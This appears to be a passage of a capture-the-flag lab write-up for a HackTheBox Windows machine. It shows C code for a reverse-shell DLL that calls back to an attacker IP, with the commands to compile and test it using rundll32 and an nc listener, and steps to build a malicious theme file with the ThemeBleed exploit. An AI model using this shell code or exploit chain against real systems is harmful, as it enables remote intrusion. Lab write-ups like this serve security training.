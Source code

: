 ```c
	PROCESS_INFORMATION pinfo;
	CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

	return (0);
}

void VerifyThemeVersion() {
	ReverseShell("10.10.14.8", 9001);
}
```

- Compile this c code!

```
x86_64-w64-mingw32-gcc-win32 main.c -shared -lws2_32 -o VerifyThemeVersion.dll
```
- `-shared` to get a dll

Confirm the function export of this dll

```
python3 -m pefile exports VerifyThemeVersion.dll
```

Test the dll to ensure it works:
- change the IP address to a different machine
- recompile the exploit
- start python web server

![[HackTheBox/Windows/attachments/Pasted image 20250523221254.png]]

- switch to said windows ip and download the dll
![[HackTheBox/Windows/attachments/Pasted image 20250523221342.png]]
- set up nc listener
- open cmd shell and run the dll using rundll32 with the export name "VerifyThemeVersion"

![[HackTheBox/Windows/attachments/Pasted image 20250523221518.png]]

This reverse shell code worked!
![[HackTheBox/Windows/attachments/Pasted image 20250523221604.png]]

#### Set up ThemeBleed Server 

Download [ThemeBleed](https://github.com/exploits-forsale/themebleed/releases) to our Windows attacc box. 

Navigate to Services (CTRL + SHIFT + ENTER) and Disable the server, and reboot the box
![[HackTheBox/Windows/attachments/Pasted image 20250523232114.png]]

Ensure that nothing is running on 445 (bc themebleed needs that port)
```
netstat -an | findstr 445
```

Create ThemeBleed exploit theme
```
.\ThemeBleed.exe make_theme 10.10.14.8 exploit.theme
```
![[HackTheBox/Windows/attachments/Pasted image 20250523232411.png]]
Then transfer this exploit.theme to Kali to upload to the target web app. 
